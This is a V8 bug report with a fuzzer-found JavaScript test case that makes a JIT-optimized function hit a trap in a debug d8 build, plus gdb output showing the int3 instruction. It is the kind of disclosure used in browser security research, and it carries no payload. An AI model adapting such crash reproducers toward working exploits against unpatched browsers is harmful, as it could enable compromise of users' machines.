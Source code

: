 UserAgent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36

Steps to reproduce the problem:
The following PoC found by fuzzing crashes v8 8.0.0 with a trap.
Run with the debug build of d8.

function opt() {
  var arr = [0, 0, 0];
  var j = 11;
  for (let i = 0; i < 100; i++) {
    if (i == 90) {
      i = j.toPrecision().trimLeft();
      ++arr[i];
      arr[Math.atan(i)] = 1;
    }
  }
}

function main() {
  for (let i = 0; i < 100; i++) {
    opt();
  }
}

main();

What is the expected behavior?

What went wrong?
Run in gdb, we can get:

Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
0x00007e8a14e42dba in ?? ()

(gdb) x/4i $pc-0x7
   0x7e8a14e42db3:      jne    0x7e8a14e42f75
   0x7e8a14e42db9:      int3
=> 0x7e8a14e42dba:      xor    %r11d,%r11d
   0x7e8a14e42dbd:      push   %r11

From our study, we think this should be different issue from 1028862.

Did this work before? N/A 

Chrome version: 78.0.3904.108  Channel: stable
OS Version: 
Flash Version: 

Found by Soyeon Park and Wen Xu from SSLab, Gatech